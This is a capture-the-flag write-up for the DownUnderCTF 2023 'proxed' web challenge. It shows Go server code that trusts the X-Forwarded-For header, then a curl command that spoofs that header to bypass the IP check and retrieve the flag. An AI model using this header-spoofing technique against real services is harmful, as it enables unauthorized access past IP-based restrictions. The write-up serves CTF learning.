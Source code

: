 ```yaml
---
title: DownUnderCTF 2023 - proxed
description: Writeup for proxed web challenge
date: 2023-12-18
tldr: Cool haxxorz only
draft: false
tags: ["ctf", "writeup", "web"]
---
```




# proxed 100 pts web


inspecting the go code we see that it checks the source ip of the request


```go
package main

import (
	"flag"
	"fmt"
	"log"
	"net/http"
	"os"
	"strings"
)

var (
	port = flag.Int("port", 1337, "The port to listen on")
)

func main() {

	flag.Parse()

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
	})

	log.Printf("Listening on port %d", *port)
	log.Fatal(http.ListenAndServe(fmt.Sprintf(":%d", *port), nil))
}

```
Simple curl does not give us the flag because our ip is not trusted.

```
curl http://proxed.duc.tf:30019/
untrusted IP: <redacted>
```

Fortunately for us we can simply spoof the source ip with `curl`


```
curl --header "X-Forwarded-For: 31.33.33.7" http://proxed.duc.tf:30019/
DUCTF{17_533m5_w3_f0rg07_70_pr0x}
```